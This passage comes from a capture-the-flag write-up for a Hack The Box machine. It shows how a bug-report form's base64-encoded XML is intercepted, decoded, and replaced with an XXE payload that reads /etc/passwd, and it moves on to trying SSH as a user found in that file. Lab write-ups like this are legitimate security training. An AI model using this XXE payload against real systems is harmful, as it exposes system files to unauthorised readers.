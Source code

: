 We are also able to find a ```/log_submit.php``` page. This page contains a form that can be submitted.We will then try to send a POST request to the backend, and intercept it 
with Burp. We also realise that the POST request is being sent to ```/tracker_diRbPr00f314.php```

![/tracker_diRbPr00f314.php request](https://github.com/joelczk/writeups/blob/main/HTB/Images/bountyhunter_tracker.PNG)

## Exploit
### XML Injection
Looking at the ```data``` field in the request, we realize that there are URL encoded characters in the ```data``` field. Hence, we will first URL decode the payyload before we decode it with base64.
```code
┌──(kali㉿kali)-[~]
└─$ echo PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ+dGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg== | base64 --decode
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>test</title>
                <cwe>test</cwe>
                <cvss>test</cvss>
                <reward>test</reward>
                </bugreport>   
```

The payload shows an XXE entity, and so we will try to change the payload to do XML injection on the payload. (NOTE: we will still have to URL encode and base64 encode the payload)
```code
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>  
```
The response that we have received shows the ```/etc/passwd``` file, and we notice that there is a user called ```development``` that might not require a password. Hence we will try to ssh with the user
```code
HTTP/1.1 200 OK
Date: Mon, 09 Aug 2021 02:34:30 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2102
Connection: close
Content-Type: text/html; charset=UTF-8
If DB were ready, would have added:
<table>
```